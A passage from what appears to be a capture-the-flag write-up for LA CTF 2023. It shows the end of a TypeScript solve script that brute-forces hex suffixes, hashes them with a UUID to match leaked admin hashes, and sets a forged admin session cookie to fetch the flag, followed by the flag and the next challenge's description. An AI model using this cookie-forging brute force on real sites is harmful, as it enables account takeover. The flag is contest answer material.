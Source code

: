 ```typescript title="exploit.ts"
  for (let i = 0; i < hexChars.length; i++) {
    logger.info(`Trying ${i + 1}/${hexChars.length}`);
    for (let j = 0; j < hexChars.length; j++) {
      for (let k = 0; k < hexChars.length; k++) {
        for (let l = 0; l < hexChars.length; l++) {
          for (let m = 0; m < hexChars.length; m++) {
            for (let n = 0; n < hexChars.length; n++) {
              const hex = `${hexChars[i]}${hexChars[j]}${hexChars[k]}${hexChars[l]}${hexChars[m]}${hexChars[n]}`;
              const hash = md5(`admin${header}${hex}${currentUUID}`);
              if (hashedUUIDs.includes(hash)) {
                r.setCookie("id", `${header}${hex}${currentUUID}`);
                logger.info(`Found the admin: ${hash}`);
                return;
              }
            }
          }
        }
      }
    }
  }
}

await checkAdmin();

await r.get("/").then((res) => logger.flag(res.data));
```

![hell-uuid-2](/assets/posts/2025-04-01-LA-CTF-2023/hell-uuid-2.webp)

`lactf{uu1d_v3rs10n_1ch1_1s_n07_r4dn0m}`

## web/85_reasons_why (78 solves, 457 points)

:::tip[description]
If you wanna catch up on ALL the campus news, check out my new blog. It even has a reverse image search feature!
:::
